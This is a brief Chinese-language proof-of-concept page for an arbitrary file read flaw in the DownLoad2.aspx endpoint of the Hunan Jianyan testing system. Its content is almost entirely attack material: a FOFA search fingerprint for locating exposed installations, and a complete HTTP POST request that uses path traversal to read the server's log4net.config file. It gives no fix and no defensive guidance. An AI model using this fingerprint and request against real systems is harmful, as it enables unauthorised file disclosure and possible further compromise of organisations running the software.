 ## 湖南建研检测系统存在DownLoad2.aspx任意文件读取漏洞

湖南建研检测系统存在DownLoad2.aspx任意文件读取漏洞，导致系统被攻击与控制。

## fofa

```
body="Login/QRLogin.ashx"
```

## poc

```
POST /Common/DownLoad2.aspx HTTP/1.1
Host: 地址
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
 
path=..%2Flog4net.config&Name=
```

![湖南建研检测系统存在DownLoad2.aspx任意文件读取漏洞](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406022022928.png)
